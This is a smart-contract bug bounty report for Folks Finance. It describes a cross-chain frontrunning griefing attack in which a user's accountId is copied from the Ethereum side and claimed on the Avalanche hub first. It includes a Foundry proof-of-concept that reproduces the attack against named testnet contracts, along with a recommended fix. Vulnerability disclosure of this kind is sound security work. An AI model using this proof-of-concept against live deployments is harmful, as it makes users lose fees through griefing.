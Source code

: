 
# FrontRunning Attack on createAccount

Submitted on Tue Jul 16 2024 18:19:37 GMT-0400 (Atlantic Standard Time) by @cryptoticky for [Boost | Folks Finance](https://immunefi.com/bounty/folksfinance-boost/)

Report ID: #33272

Report type: Smart Contract

Report severity: Medium

Target: https://sepolia.etherscan.io/address/0x16Eecb8CeB2CE4Ec542634d7525191dfce587C85

Impacts:
- Unbounded gas consumption
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
## Brief/Intro
An attacker can cause a user's message to fail by creating an account with the same accountId while the createAccount message is in transit through the bridge. As a result, the user loses the gas fees incurred for the transaction and the additional gas fees used for the bridge.

## Vulnerability Details
AccountId is not validated in any format in SpokeCommon.createAccount and AccountManager.createAccount.
AccountId is any value created by user.
So attacker can copy the account id from the Ethereum network's transaction history and use it to create an account on the HubChain (Avalanche network).
This is possible because there is a delay while the message through the bridge.

## Impact Details
Gas costs on the Ethereum network are significantly higher than on the Avalanche network. While an attacker may incur less than $0.1 in costs to carry out the attack, the user could suffer losses between $5 and $10.

## Recommendation
It is advisable to set the accountId as the hash value of the userAddress and nonce.

        
## Proof of concept
## Proof of Concept

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "../../src/PoC.sol";


interface ISpokeCommon {
    struct MessageParams {
        uint16 adapterId; // where to route message through
        uint16 returnAdapterId; // if applicable, where to route message through for return message
        uint256 receiverValue; // amount of value to attach for receive message
        uint256 gasLimit; // gas limit for receive message
        uint256 returnGasLimit; // if applicable, gas limit for return message
    }

    function createAccount(
        MessageParams memory params,
        bytes32 accountId,
        bytes32 refAccountId
    ) external payable;
}

contract FolksFinance is PoC {

    function setUp() virtual public {
        console.log("\n>>> Initial conditions");
    }

    function testCreateAccount() public {
        vm.createSelectFork("eth_testnet", 6322454);
        address user = vm.createWallet("user").addr;
        vm.startPrank(user);
        ISpokeCommon spokeCommon = ISpokeCommon(0x16Eecb8CeB2CE4Ec542634d7525191dfce587C85);
        ISpokeCommon.MessageParams memory params;
        params.adapterId = 2;
        params.returnAdapterId = 1;
        params.receiverValue = 0;
        params.gasLimit = 201817;
        params.returnGasLimit = 0;

        bytes32 accountId = bytes32(uint256(1));
        bytes32 refAccountId;

        spokeCommon.createAccount{value: 13828150600000000}(params, accountId, refAccountId);
        // User has to pay for gas cost for this tx and fee(the gasLimit for targetChain).

        vm.stopPrank();

        // An attacker can carry out a frontrunning attack
        // The attacker the accountId from the Ethereum network's transaction history and use it to create an account on the HubChain (Avalanche network).
        // This is possible because it takes over 10 seconds to complete the transaction through the bridge.
        vm.createSelectFork("avalanche_testnet", 34872103);
        spokeCommon = ISpokeCommon(0x6628cE08b54e9C8358bE94f716D93AdDcca45b00);
        params.adapterId = 1;
        params.returnAdapterId = 1;
        params.receiverValue = 0;
        params.gasLimit = 0;
        params.returnGasLimit = 0;

        accountId = bytes32(uint256(1));
        spokeCommon.createAccount(params, accountId, refAccountId);
        // Wormhole would send the message after the accountId is created and the tx would be failed.
    }
}
```